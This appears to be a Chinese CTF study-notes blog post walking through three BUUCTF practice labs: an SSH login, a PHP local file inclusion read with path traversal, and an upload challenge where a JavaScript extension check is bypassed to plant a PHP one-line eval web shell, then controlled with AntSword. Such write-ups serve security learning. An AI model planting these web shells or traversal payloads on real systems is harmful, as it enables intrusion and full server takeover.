BUUCTF 刷题笔记——Basic 1
BUUCTF 刷题笔记——Basic 1
Linux Labs
启动靶机
打开链接，只有如图的清爽页面
过于清爽初来乍到的小白显然不知从何入手……并且页面中的按钮也不过是摆设。
ssh 连接
其实题目本身已经说明，要进行 ssh 远程连接。
虽然题目名显示需要 Linux ，但只是 ssh 的话，显然在 Windows 的命令行直接操作即可。
在 CMD 中输入以下命令发起连接：
1
ssh -p [端口号] [用户名]@[地址]
第一次连接会有如下提示，键入 yes 后回车，再输入密码即可连接成功。

文件查找
既然已经连接上了，那就可以看看有哪些文件了，先输入
ls查看当前文件夹的内容。很遗憾，是个空文件夹。那么继续查找，当前目录为
~，所以这里访问上一层目录即访问根目录。输入命令cd ..再ls查看内容。注意到关键词
flag，大概率访问这个文件即可。输入命令cat flag.txt打开文件。到手！
BUU LFI COURSE 1
启动靶机
打开页面为一段代码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15<?php
/**
* Created by PhpStorm.
* User: jinzhao
* Date: 2019/7/9
* Time: 7:07 AM
*/
highlight_file(__FILE__);
if(isset($_GET['file'])) {
$str = $_GET['file'];
include $_GET['file'];
}
代码审计
熟悉的 PHP 代码，不难看出只要将变量名为
file的文件路径包含进去就能打开可能是我们需要的文件。那么我们需要的文件叫什么呢？有没有一种可能，他叫flag，假设假设成立，接下来验证一下。在 url 后加上/?file=flag回车。很遗憾，这里并没有这个文件，根据提示可以看出共有三级目录，那么我们可以逐一查看一下其他文件夹，可以使用
../查找上一级目录，或直接使用/查找根目录。在 url 后加上/?file=/flag回车。因此不难发现，答案就在根目录的名为 flag 的文件中。所以不仅可以使用
/?file=/flag，也可以使用/?file=../../../flag。那显然还是直接访问根目录比较优雅。
Upload-Labs-Linux
启动靶机
打开网页，终于不再像前面两个题一样草率，页面还是挺好看的，虽然这并不重要。
对着这个网页一通研究，好吧，是个硬茬。
研究页面
既然有上传图片的功能，那就上传一张看看。
一切正常，根据图片 url 可以看出文件被上传至网页目录的
upload目录下。再上传一个其他文件看看，被阻止了，说是只支持
jpg/png/gif三种文件，老实说不支持webp我不是很认可。也就是说，我们只能上传这三种文件，想通过上传我们的木马武装夺旗，就只能想办法突破这种限制。作为小白，理所应当地查看提示：
使用 js 检查可还行，意味着检查在前端完成，而前端完全可以由我们自行操作！
突破限制
这里可以先创建好一个文件，先编写好所谓的“一句话木马”。
一句话木马
将仅含一行代码的程序文件上传至目标网站，如 PHP 代码：
1
@eval($_POST["h-t-m"]);
@表示其后代码即使出错也将不会报错。eval()函数表示将参数当作代码来执行。$_POST[]表示以 post 方式获取变量。
也就是说，我们将文件上传之后，即可用对应方法向网站提交代码并执行，这里使用 post 方法。虽然我们直接定义了自己的变量名
h-t-m，但是@可以保证不会报错。于是我们完全可以通过这个文件直接连接至服务器。由于只是 js 检查，为表示对检查的尊重，我们大可以嚣张一点，将文件名命名为
木马.php。突破前端检查，可以直接修改对应的 js 代码，也可以直接在浏览器禁用 JavaScript ，或者直接删除 HTML 中对检查代码的调用。
以下三种方法任选其一即可
修改 js 代码需要在控制台重构函数，直接原地修改无效。查看语句找到该检查函数如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17function checkFile() {
var file = document.getElementsByName('upload_file')[0].value;
if (file == null || file == "") {
alert("请选择要上传的文件!");
return false;
}
//定义允许上传的文件类型
var allow_ext = ".jpg|.png|.gif";
//提取上传文件的类型
var ext_name = file.substring(file.lastIndexOf("."));
//判断上传文件类型是否允许上传
if (allow_ext.indexOf(ext_name) == -1) {
var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
alert(errMsg);
return false;
}
}可以看出，文件类型的限定语句为
var allow_ext = ".jpg|.png|.gif";那么只要将我们要上传的文件的后缀名加入，并在控制台中执行即可：禁用 JavaScript ：右键——检查——设置——禁用即可
删除 HTML 中代码即删除如图语句即可

解除限制之后，便可以将文件上传了
刚开始对页面研究时我们得知，文件是直接上传至网页所在目录的
upload目录下的，因此可以得知我们上传的文件的 url 为http://靶机地址/upload/木马.php，当然也可以在上传页直接查看文件地址。
入侵
上传好木马后，就该使用工具进入整个后台服务器了。中国蚁剑既可以完成这个任务，配置安装入门可参考官方 中文文档 。打开软件添加连接：
注意到，这里需要输入密码，那么密码是什么呢？在前面输入的一句话代码中，
<?php @eval($_POST["h-t-m"]);?>，我们将通过 post 方法将内容传输至h-t-m变量中而实现入侵，而这个变量就是进入服务器所需要的连接密码。因此，输入变量名即可。添加成功后双击连接即可进入木马文件所在目录，右边同样可以看到目录列表，因此现在我们已经拥有了网站所有的文件了，并且可以进行任意增删改查！

寻找 flag
既然已经获得所有权了，那就可以慢慢找了。不过，目前的经验表明，flag 一般会放在根目录，因此首先查看根目录，果不其然：
都到这一步了，就双击打开吧！
